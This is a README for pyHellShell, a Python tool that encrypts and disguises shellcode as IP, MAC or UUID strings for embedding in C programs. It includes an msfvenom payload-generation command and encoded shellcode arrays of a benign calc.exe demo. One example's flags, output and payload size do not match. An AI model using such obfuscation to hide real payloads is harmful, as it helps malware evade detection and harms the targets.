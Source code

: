 # pyHellShell

pyHellShell is a python implementation of the tool [HellShell](https://github.com/NUL0x4C/HellShell). pyHellShell takes in a raw payload file and processes it with encryption and obfuscation. Currently, pyHellShell supports 3 types of encryption and 4 types of obfuscation. 

## Feature 

**Encryption**
- xor
- rc4
- aes256

**Obfuscation** 
- ipv4
- ipv6
- mac
- uuid 

**Output Format**
- C: Can be directly used in C or CPP projects 
- Raw: Saves output to a file 

## Usage 

```bash
usage: pyHellShell.py [-h] -i INPUT [-e {xor,rc4,aes256}] [-k KEY] [-o {ipv4,ipv6,mac,uuid}] [-f {c,raw}] [-out OUTPUT]

PyHellShell: A tool for file encryption and obfuscation.

options:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Path to the input file.
  -e {xor,rc4,aes256}, --encryption {xor,rc4,aes256}
                        Encryption method.
  -k KEY, --key KEY     Encryption key.
  -o {ipv4,ipv6,mac,uuid}, --obfuscation {ipv4,ipv6,mac,uuid}
                        Obfuscation method.
  -f {c,raw}, --format {c,raw}
                        Output format (C array or raw text file).
  -out OUTPUT, --output OUTPUT
                        Path to the output file.
```

## Examples 

#### Payload Creation 
```bash
msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o calc.bin 
```

#### Encryption + Obfuscation, stdout with C Array 
```bash
└─$ python3 pyHellShell.py -i calc.bin -e xor -k testo -o ipv4     

[i] Input file          : calc.bin
[i] Encryption method   : xor
[i] Obfuscation method  : uuid
[i] Output format       : c
[i] Output file         : None

char* buf[] = {
        "90f02d88-9c9f-73a5-746f-353432243d25", "bd453b33-2d11-26f8-0f3c-ee216c27ff37", "06e43c53-3b35-d87b-3e2f-3e45a63c54b3", "191553d8-5871-354f-a4ba-792e75a49199", 
        "3b34353d-3dff-ee54-3148-2775b5f8f4e7", "3c736574-b4ea-1411-3c6e-a435f83c7730", "265433ee-b575-2290-278b-ac32ff5bfc2d", "4522a272-3bac-af45-d824-b2bd623564b2", 
        "94018f4c-773f-5023-6d36-4dbe01bd2b30", "3a4134e4-bf75-2412-f878-2730ee336826", "ff32b575-fc6b-722d-a42e-2c242b2a362e", "36352b24-3f35-f73b-8354-24218b8f2c24", 
        "ff272e2a-9a77-9023-8b9a-2e3cd5756573", "65746f74-3c73-f9e2-6472-746f35df42ff", "a69af300-9fcf-c7c1-2535-d5d2f0cee990", "b0f02da1-4847-0f63-7eef-8f850671d433", 
        "051b0176-3c74-fd32-b58b-b0101503171f", "0c0a5a09-7300-0000-0000-000000000000"
};

#define NumberOfElements 18
#define PayloadSize 27
```

#### Encryption + Obfuscation + save to file 
```bash
└─$ python3 pyHellShell.py -i calc.bin -e rc4 -k testo -o mac -f raw -out calc.rc4.mac.bin

[i] Input file          : calc.bin
[i] Encryption method   : rc4
[i] Obfuscation method  : mac
[i] Output format       : raw
[i] Output file         : calc.rc4.mac.bin

[+] Saved to file: calc.rc4.mac.bin

#define PayloadSize 278

└─$ cat calc.rc4.mac.bin                
fc:ce:98:c3:0c:8b,13:60:02:bc:76:8e,e8:66:6d:ce:5d:3c,05:cb:08:20:c7:a2,c0:16:e8:80:9d:e4,c5:e0:80:55:f0:9b,74:de:ec:b4:fb:18,bd:69:01:4a:ae:77,1b:26:aa:5a:bc:01,32:41:d3:12:bc:fb,5a:c1:a1:38:d0:f8,cf:7c:6a:8b:25:73,88:54:dc:2c:df:84,f1:3f:1c:c6:5b:8b,c5:fa:49:62:a8:f8,2d:53:84:eb:bc:0a,5b:51:3c:d1:c0:f6,1f:ad:7d:f1:23:06,a8:e0:ee:45:9e:63,76:b4:65:08:c9:fe,0b:e0:ff:62:88:aa,38:9e:f9:d4:9f:87,64:6e:42:76:7a:13,d6:c2:46:04:a2:34,71:11:54:41:4c:42,2d:4c:31:4d:07:0f,3f:2c:cb:de:02:3b,bf:ba:90:e4:be:85,fc:d7:f0:2e:c1:0c,17:02:09:a5:47:8d,93:e5:74:e2:39:92,bc:db:4a:73:47:42,9f:4a:78:0a:96:30,41:05:b2:ce:0c:7d,cd:89:09:a3:df:d8,ba:40:36:a4:5f:7b,8c:1c:19:a0:de:8c,da:46:2d:f2:44:0f,17:04:86:bb:b2:c1,43:8b:8e:33:40:76,a0:3d:a0:27:a6:45,f6:79:2b:1a:df:b7,64:80:3a:5b:9a:6d,d7:55:8d:71:7b:c5,c0:1f:8d:d7:06:62,96:09:85:42:60:74,6b:f7:00:00:00:00
```

#### Only Obfuscation + save to file 
```bash

└─$ python3 pyHellShell.py -i calc.bin -o ipv4 -f c     

[i] Input file          : calc.bin
[i] Encryption method   : None
[i] Obfuscation method  : ipv4
[i] Output format       : c
[i] Output file         : None

char* buf[] = {
        "252.72.131.228", "240.232.192.0", "0.0.65.81", "65.80.82.81", "86.72.49.210", "101.72.139.82", "96.72.139.82", "24.72.139.82", 
        "32.72.139.114", "80.72.15.183", "74.74.77.49", "201.72.49.192", "172.60.97.124", "2.44.32.65", "193.201.13.65", "1.193.226.237", 
        "82.65.81.72", "139.82.32.139", "66.60.72.1", "208.139.128.136", "0.0.0.72", "133.192.116.103", "72.1.208.80", "139.72.24.68", 
        "139.64.32.73", "1.208.227.86", "72.255.201.65", "139.52.136.72", "1.214.77.49", "201.72.49.192", "172.65.193.201", "13.65.1.193", 
        "56.224.117.241", "76.3.76.36", "8.69.57.209", "117.216.88.68", "139.64.36.73", "1.208.102.65", "139.12.72.68", "139.64.28.73", 
        "1.208.65.139", "4.136.72.1", "208.65.88.65", "88.94.89.90", "65.88.65.89", "65.90.72.131", "236.32.65.82", "255.224.88.65", 
        "89.90.72.139", "18.233.87.255", "255.255.93.72", "186.1.0.0", "0.0.0.0", "0.72.141.141", "1.1.0.0", "65.186.49.139", 
        "111.135.255.213", "187.240.181.162", "86.65.186.166", "149.189.157.255", "213.72.131.196", "40.60.6.124", "10.128.251.224", "117.5.187.71", 
        "19.114.111.106", "0.89.65.137", "218.255.213.99", "97.108.99.122", "122.46.101.120", "101.0.0.0"
};

#define NumberOfElements 70
#define PayloadSize 278

```




## Credits 

- [HellShell](https://github.dev/NUL0x4C/HellShell)
- MiniShell from Maldev Academy 
- [Maldev Academy](https://maldevacademy.com/): pyHellShell was created while going through the payload obfuscation modules in maldev academy. 